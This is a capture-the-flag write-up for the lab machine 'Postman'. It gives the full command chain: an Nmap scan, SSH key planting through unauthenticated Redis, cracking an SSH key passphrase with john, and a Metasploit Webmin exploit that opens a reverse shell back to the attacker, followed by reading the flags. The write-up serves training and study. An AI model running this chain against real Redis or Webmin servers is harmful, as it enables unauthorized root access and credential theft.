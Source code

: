 <center><h1>Postman</h1></center>
<br>
Start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 18:04 EST
Nmap scan report for postman (10.10.10.160)
Host is up (0.063s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.24 seconds
```
So a few ports open. First I enumerated port 80 and didn't find anything useful. Next I checked out port 10000 and once there I had to add ```postman``` to my ```/etc/hosts``` file. Once that was done I refreshed the page and was greeted with a ```webmin``` login. Now I was not able to do anything more since every exploit requires valid credentials which I don't have. Lastly, was port 6379 with redis. First I try to connect using ```telnet``` to see if the service has any sort of authentication set and turns out it doesn't. next step was to install ```redis-tools``` so I could use the ```redis-cli``` to interact with the redis service. Once that was done I was able to find an exploit where I upload my own ssh keys to the server and use that to ssh into the system.
<br>
First step is to take my ssh key and copy it to a new file but at the same time generating some random data to the beginning and end of the file
```
# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```
Next step is to set the keys into the database. You should see and OK message
```
# cat key.txt | redis-cli -h 10.10.10.160 -p 6379 -x set bb
OK
```
Now I need to copy the ssh key into the .ssh folder but first I need to find where that is. Using the command below I see its located at ```/var/lib/redis/.ssh```.
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```
Now I change into the directory
```
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
```
Then I change the name of the database to ```authorized_keys``` since this will be the name of out file. Then just save and exit.
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Now I can ssh in as the user ```redis``` from my host machine
```
# ssh -i id_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Nov  5 19:58:37 2019 from 10.10.14.19
redis@Postman:~$ whoami
```
Now doing some manual enumeration I found an ```id_rsa.bak``` file in ```/opt```. I copied this file to my host machine and saw that it was password protected. Using ```ssh2john``` I can convert the ssh key into a format that john and read and will crack the password for me.
```
# python ssh2john.py id_rsa.bak > id_rsa.hash
```
Now john cracks the hash in only a few seconds and I am given a password of ```computer2008```
```
# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:12 DONE (2019-11-05 15:33) 0.07818g/s 1121Kp/s 1121Kc/s 1121KC/sa6_123..*7¡Vamos!
Session completed
```
I tried to ssh in as the user ```Matt``` and ```root``` and niether worked so the only other thing I could think of was to use the password for the ```webmin``` login page. It ended up working as the username ```Matt``` and password ```computer2008```. Now since I have credentials, I can use one of the CVE's from earlier. I spin up metasploit and load in the module ```exploit/linux/http/webmin_packageup_rce```. After entering all the necessary info I type run and it spawns a shell. If I do a ```whoami``` I see that I am the user ```root```
```
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.39:4444 
[+] Session cookie: 3e1a4b0fabef10776fd267a6809f2f62
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.39:4444 -> 10.10.10.160:44420) at 2019-11-05 16:25:54 -0500

whoami
root
```
To give myself a better shell I will spawn myself a python tty shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/# cd
root@Postman:~#
```
From here I can read the user flag located at ```/home/Matt/user.txt```
```
root@Postman:~# cat /home/Matt/user.txt
517ad0ec2458ca****************
```
And the root flag from ```/root/root.txt```
```
root@Postman:~# cat root.txt
cat root.txt
a257741c5bed8be7**************
```
<br><br><br><br>
